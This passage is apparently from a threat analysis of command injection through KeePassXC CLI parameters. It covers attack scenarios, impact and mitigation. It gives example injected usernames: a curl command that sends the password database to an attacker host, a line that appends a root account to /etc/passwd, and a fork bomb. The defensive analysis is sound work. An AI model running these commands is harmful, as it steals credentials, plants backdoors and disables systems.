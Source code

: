 *   **Data Exfiltration:** An attacker could inject commands to exfiltrate sensitive data. For example, they could use `curl` or `wget` to send the contents of the KeePassXC database or other sensitive files to an external server they control.
    *   Example malicious username: `"user; curl -X POST --data-binary @database.kdbx http://attacker.com/exfiltrate"`
*   **System Backdoor Creation:**  An attacker could create a backdoor to maintain persistent access to the system. This could involve creating a new user account, modifying system startup scripts, or installing remote access tools.
    *   Example malicious username: `"user; echo 'user::0:0::/root:/bin/bash' >> /etc/passwd"` (This is a simplified example and might require adjustments based on the system).
*   **Denial of Service (DoS):**  An attacker could inject commands to consume system resources and cause a denial of service. This could involve resource-intensive commands like `fork bombs` or commands that fill up disk space.
    *   Example malicious username: `"user; :(){ :|:& };:"` (Fork bomb - use with extreme caution in testing environments only!)
*   **Privilege Escalation (in some scenarios):** If the application is running with elevated privileges (which is generally discouraged for CLI interactions), a successful command injection could lead to privilege escalation, allowing the attacker to gain root or administrator access.
*   **Database Manipulation (potentially):** While less direct, depending on the KeePassXC CLI commands used by the application, it might be possible to inject commands that indirectly manipulate the KeePassXC database itself, although this is less likely with typical password retrieval scenarios.

#### 4.4. Impact Deep Dive

The impact of successful KeePassXC CLI parameter injection is **High** as stated, and can be further elaborated:

*   **Confidentiality Breach:**  Exposure of sensitive data stored in the KeePassXC database, including passwords, notes, and other confidential information. This can lead to identity theft, financial loss, and reputational damage.
*   **Integrity Compromise:**  Modification or deletion of data within the KeePassXC database or other system files. This can disrupt operations, lead to data loss, and undermine trust in the application.
*   **Availability Disruption:**  Denial of service attacks can render the application and potentially the entire system unusable, impacting business operations and user access.
*   **System Compromise:**  Full control over the system where the KeePassXC CLI is running. This allows attackers to perform any action they desire, including installing malware, stealing data, and further compromising the network.
*   **Reputational Damage:**  A successful attack can severely damage the reputation of the application and the organization using it, leading to loss of customer trust and business opportunities.
*   **Legal and Regulatory Consequences:**  Data breaches resulting from this vulnerability can lead to legal and regulatory penalties, especially if sensitive personal data is compromised.

#### 4.5. Mitigation Strategy Evaluation and Enhancements

The provided mitigation strategies are excellent starting points. Let's evaluate them and suggest enhancements:

*   **"Absolutely avoid directly embedding user-provided input...":**  **Excellent and crucial advice.** This is the most fundamental mitigation.  However, it needs to be emphasized *how* to avoid this. Simply telling developers to "sanitize" is not enough.

    *   **Enhancement:**  Provide concrete examples of *what not to do* (string concatenation, string formatting directly with user input) and *what to do* (parameterized commands, secure libraries).
